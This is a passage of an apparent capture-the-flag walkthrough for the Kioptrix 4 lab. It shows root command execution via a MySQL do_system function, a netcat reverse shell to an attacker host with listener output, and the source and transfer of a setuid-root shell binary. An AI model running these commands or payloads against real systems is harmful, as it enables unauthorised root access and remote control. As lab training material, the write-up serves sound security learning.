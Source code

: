 ```
+------------------------------------------------+
|                                     8589934592 | 
+------------------------------------------------+
1 row in set (0.00 sec)

mysql> \! sh
$ cat /tmp/out
uid=0(root) gid=0(root)
```

So now we effectively have arbitrary command execution as `root` via MySQL.

Given the presence of `netcat` on this box we can pretty easily spawn a reverse shell via this same pathway,

`mysql> select do_system('netcat -e /bin/sh 192.168.1.30 443');`

`$ nc -lvnp 443`

```
listening on [any] 443 ...
connect to [192.168.1.30] from (UNKNOWN) [192.168.1.34] 59332
whoami
root
id
uid=0(root) gid=0(root)
```

But that's kind of boring so lets try something new this time.

Lets first create a simple SetUID0 binary and then compile it for our target architecture.

`vim suid.c`

```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
    setuid(0); setgid(0); system("/bin/bash");
}
```

`$ gcc -m32 suid.c -o suid-shell`

And then send it over using a Python HTTP Server again,

`$ python -m SimpleHTTPServer`

```
192.168.1.34 - - [11/Jan/2020 11:58:49] "GET /suid-shell HTTP/1.0" 200 -
```

`robert@Kioptrix4:/dev/shm$ wget 192.168.1.30:8000/suid-shell`

```
--06:58:50--  http://192.168.1.30:8000/suid-shell
           => `suid-shell'
Connecting to 192.168.1.30:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15,568 (15K) [application/octet-stream]

100%[===============================>] 15,568        --.--K/s             

06:58:50 (1.55 GB/s) - `suid-shell' saved [15568/15568]
```
